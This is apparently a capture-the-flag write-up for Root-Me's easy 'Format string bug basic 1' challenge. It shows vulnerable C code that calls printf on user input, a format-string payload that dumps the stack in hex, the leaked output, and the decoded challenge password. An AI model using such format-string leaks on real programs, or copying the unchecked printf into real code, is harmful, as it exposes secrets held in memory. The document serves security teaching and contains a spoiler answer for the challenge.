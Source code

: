 # ELF x86 - Format string bug basic 1
- Point: 15pts
- Author: [Lu33Y](https://www.root-me.org/Lu33Y?lang=en),  8 February 2012
- Level: Easy<br><br>
![image](https://user-images.githubusercontent.com/48288606/141501790-9851fa6d-9b74-44b1-9960-74e627795010.png)
## Write-up:

```
#include <stdio.h>
#include <unistd.h>
 
int main(int argc, char *argv[]){
        FILE *secret = fopen("/challenge/app-systeme/ch5/.passwd", "rt");
        char buffer[32];
        fgets(buffer, sizeof(buffer), secret);
        printf(argv[1]);
        fclose(secret);
        return 0;
}
```
The code open file **.passwd** which includes the password we need, then write it into **buffer** array. <br>
The vulnerability in `printf(argv[1]);`, it execute without **Format specifier".**So we can take advantage of this  to look into the stack to find out the password.
### Solution:
- We'll "brute-force" the buffer space and examine the output value. Print the value with hex code: <br>
`./ch5 $(python -c "print '%08x.'*32")`
- Output:
```
00000020.0804b160.0804853d.00000009.bffffcc5.b7e1b589.bffffb94.b7fc3000.b7fc3000.0804b160.39617044.28293664.6d617045.bf000a64.0804861b.00000002.bffffb94.bffffba0.cfa6f800.bffffb00.00000000.00000000.b7e03f21.b7fc3000.b7fc3000.00000000.b7e03f21.00000002.bffffb94.bffffba0.bffffb24.00000001.
```
- Convert to ASCII text ([HextoText](https://www.rapidtables.com/convert/number/hex-to-ascii.html)):<br><br>
![image](https://user-images.githubusercontent.com/48288606/141614663-d2edc72c-3b5f-4267-9ec4-aefeb2fcfeb7.png)<br><br>
As illustrated, a part of string above contains the real password; therefore, we just write these bytes into "big endian" [Script here]() format and convert again to hex.<br>
Pass: Dpa9d6)(Epamd


